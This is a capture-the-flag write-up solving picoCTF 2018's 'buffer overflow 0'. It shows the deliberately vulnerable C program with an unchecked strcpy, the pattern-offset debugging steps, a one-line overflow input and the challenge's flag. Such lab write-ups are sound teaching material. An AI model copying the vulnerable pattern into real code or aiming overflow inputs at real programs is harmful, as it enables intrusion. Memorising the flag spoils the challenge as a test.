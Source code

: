 
# buffer overflow 0
**Points: 150**

## Binary Exploitation

## Question
>Let's start off simple, can you overflow the right buffer in this program to get the flag? You can also find it in /problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631 on the shell server. Source.

### Hint
>How can you trigger the flag to print?
>If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution
Let's check the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```
With `signal(SIGSEGV, sigsegv_handler);` the function sigsegv_handler is set to handle the signal SIGSEGV ((Signal Segmentation Violation) Invalid access to storage) that is called when a program tries to read or write outside the memory it is allocated for it.
So we only need to pass as parameter a strings larger than the buffer. To check this size we can use msf-pattern:
```# msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

gdb-peda$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Stopped reason: SIGSEGV
0x62413961 in ?? ()
# msf-pattern_offset -q 0x62413961
[*] Exact match at offset 28
```
So if we exceed 28, we'll get the flag

```bash
./vuln `python -c 'print "A"*32'\`
```

![alt text](https://github.com/manulqwerty/picoCTF-2018-WriteUp/blob/master/Binary%20Exploitation/buffer%20overflow%200/images/1.png)

### Flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}`
